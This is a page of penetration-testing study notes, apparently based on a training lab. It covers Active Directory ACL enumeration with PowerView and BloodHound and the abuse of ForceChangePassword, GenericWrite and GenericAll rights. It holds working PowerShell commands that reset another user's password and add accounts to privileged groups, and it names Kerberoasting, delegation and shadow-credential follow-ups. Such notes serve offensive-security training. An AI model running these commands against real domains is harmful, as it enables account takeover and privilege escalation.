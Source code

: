 # Content
- [ACL Enumeration](#acl-enumeration)
  - [ACL Enumeration with Powerview](#acl-enumeration-with-powerview)
  - [ACL Enumeration with BloodHound](#acl-enumeration-with-bloodhound)
- [ACL attacks](#acl-attacks)

# ACL Enumeration
## ACL Enumeration with Powerview
- [control-access-rights list](https://learn.microsoft.com/en-us/windows/win32/adschema/control-access-rights)
- [ace-strings right list](https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings)
```powershell
# get all intersting acl but can take alot of time
Find-InterestingDomainAcl

# specify one object
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# specify one object to one target
Get-DomainObjectACL -ResolveGUIDs -Identity  "GPO Management" | ? {$_.SecurityIdentifier -eq $sid}

# Reverse Search & Mapping to a GUID Value
$guid= "00299570-246d-11d0-a768-00aa006e0529"
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

# Creating a List of Domain Users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt

# read from list a specfic user
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

# Investigating the Help Desk Level 1 Group with Get-DomainGroup
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

```

in here the `S-1-5-21-3842939050-3880317879-2865463114-1181` user have `User-Force-Change-Password` right on `S-1-5-21-3842939050-3880317879-2865463114-1176` user
![Screenshot_2](https://github.com/kiro6/penetration-testing-notes/assets/57776872/891252fe-052c-4e21-9034-2bbfeaa3eff6)



in here `S-1-5-21-3842939050-3880317879-2865463114-5614` have `Self-Membership` and `ReadProperty, WriteProperty, GenericExecute` on `S-1-5-21-3842939050-3880317879-2865463114-4046`
![Screenshot_2](https://github.com/kiro6/penetration-testing-notes/assets/57776872/0f2aaade-e4cc-4a62-b333-3828962e85b9)




## ACL Enumeration with BloodHound
- [SharpHound .NET](https://github.com/BloodHoundAD/SharpHound)
- [SharpHound powershell](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
- [BloodHound]([https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound/releases))
```powershell
.\SharpHound.exe -c All --zipfilename ILFREIGHT

bloodhound 
```

# ACL attacks

![Screenshot 2024-06-30 at 22-18-35 Active Directory Enumeration   Attacks](https://github.com/kiro6/penetration-testing-notes/assets/57776872/243dfde0-9db7-4c9e-a76b-85ed31054167)


## ForceChangePassword 

gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).


### Scenario: Use the `wley` user to change the password for the `damundsen` user


create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0) for `wley` using his password
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```
create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user damundsen.
```powershell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

using PowerView change the password 
```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

## GenericWrite

**gives us the right to write to any non-protected attribute on an object.** 


1) If we have this access over a `user`, we could `assign them an SPN` and perform a `Kerberoasting attack` (which relies on the target account having a weak password set).
2) Over a `group` means we could `add ourselves` or another security principal to a given group.
3) if we have this access over a `computer object`, we could perform a `resource-based constrained delegation` attack.


### Scenario 1 : damundsen user have GenericWrite over Help Desk Level 1 group so we can out selves 


create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0) for `damundsen` using his password
```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

using PowerView add yourslef
```powershell
# check group members
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

# add your user
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred -Verbose

```

## GenericAll 

**full rights to the object**

1) **Access over User account allows for:**
   - Change the Target's Password
   - Targeted Kerberoasting: Assign an SPN to the user's account to make it kerberoastable
   - Shadow Credentials: Use this technique to impersonate a user 
2) **Access over Group allows for:**
   - Add current user to the target Group
3) **Access over Computer user allows for:**
   - Kerberos Resource-based Constrained Delegation
   - Shadow Credentials: Use this technique to impersonate a computer    
